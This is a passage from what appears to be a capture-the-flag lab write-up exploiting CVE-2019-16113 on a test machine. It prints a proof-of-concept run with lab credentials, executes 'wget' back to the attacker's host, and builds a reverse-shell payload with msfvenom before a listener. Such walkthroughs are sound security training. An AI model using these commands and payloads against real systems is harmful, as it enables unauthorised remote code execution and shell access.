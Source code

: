 ```

[*] Started reverse TCP handler on 192.168.1.98:4444
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading ScDPUYvvNY.png...
[*] Uploading .htaccess...
[*] Executing ScDPUYvvNY.png...
[!] This exploit may require manual cleanup of '.htaccess' on the target
[*] Exploit completed, but no session was created.
```

But remember we can try the Python PoC, that won't drop a shell directly but
we should be able to execute a command:

```
$ python 48568.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c 'wget http://10.10.14.82:8888'

ΓòöΓòù Γö¼  Γö¼ Γö¼ΓöîΓö¼ΓöÉΓö¼ΓöîΓö¼ΓöÉ  ΓòöΓòÉΓòùΓòª ΓòªΓòöΓòùΓòö
ΓòáΓò⌐ΓòùΓöé  Γöé Γöé ΓöéΓöéΓöé Γöé   ΓòáΓòÉΓò¥ΓòæΓòæΓòæΓòæΓòæΓòæ
ΓòÜΓòÉΓò¥Γö┤ΓöÇΓöÿΓööΓöÇΓöÿΓöÇΓö┤ΓöÿΓö┤ Γö┤   Γò⌐  ΓòÜΓò⌐Γò¥Γò¥ΓòÜΓò¥

 CVE-2019-16113 CyberVaca

[+] csrf_token: c70c85766c4e397c88528a05f2096ec4b155ccb7
[+] cookie: dvn3jo5f1srsl0in6snh59k346
[+] csrf_token: 1c97c7eab1fadc24b5ac09a593e150c794a19eb7
[+] Uploading oytpsybc.jpg
[+] Executing command: wget http://10.10.14.82:8888
[+] Delete: .htaccess
[+] Delete: oytpsybc.jpg
```

We can see the connection on our oneline web server:

```
$ ruby -run -e httpd . -p 8888
[2020-08-16 20:54:16] INFO  WEBrick 1.6.0
[2020-08-16 20:54:16] INFO  ruby 2.7.1 (2020-03-31) [x86_64-linux]
[2020-08-16 20:54:16] INFO  WEBrick::HTTPServer#start: pid=71953 port=8888
10.10.10.191 - - [16/Aug/2020:20:54:53 CEST] "GET / HTTP/1.1" 200 2265
- -> /
```

So we can generate a reverse shell with `msfvenom` (part of [msf][msf]):

```
$ msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=10.10.14.82 LPORT=9999 -f elf > revshell.elf
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

Start a listener with [pwncat][pwncat]:
